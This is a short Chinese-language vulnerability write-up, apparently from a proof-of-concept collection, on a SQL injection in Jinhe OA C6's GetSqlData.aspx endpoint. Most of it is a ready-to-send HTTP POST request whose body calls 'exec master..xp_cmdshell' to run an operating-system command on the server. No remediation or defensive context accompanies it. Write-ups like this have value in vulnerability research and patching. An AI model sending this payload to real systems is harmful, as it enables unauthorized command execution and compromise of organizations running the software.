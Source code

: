 #### 影响范围

金和OA C6

#### 漏洞概述

金和OA C6-GetSqlData.aspx SQL注入

#### 漏洞复现

漏洞POC

```
POST /C6/Control/GetSqlData.aspx/.ashx
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

exec master..xp_cmdshell 'ipconfig'
```



